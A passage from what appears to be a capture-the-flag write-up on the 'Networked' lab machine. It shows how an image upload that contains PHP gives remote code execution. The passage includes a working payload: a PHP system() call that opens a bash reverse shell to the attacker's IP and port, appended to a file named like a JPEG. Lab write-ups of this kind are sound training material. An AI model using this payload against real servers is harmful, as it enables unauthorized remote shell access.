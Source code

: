 Then once the image was uploaded I opened it on the `/uploads` directory and saw the php information pop up!

*Achieving php RCE*

![Img](/assets/posts_details/Networked/images/phpinfo.png)

I modified the above command to get a shell:

```php
echo "<?php phpinfo(); system('bash -i >& /dev/tcp/10.10.12.249/1234 0>&1');?>" >> test_good.php.jpg
```

And voilà! We get a shell as user `apache`!

*Getting a low-privileged shell*

![Img](/assets/posts_details/Networked/images/apache-shell.png)
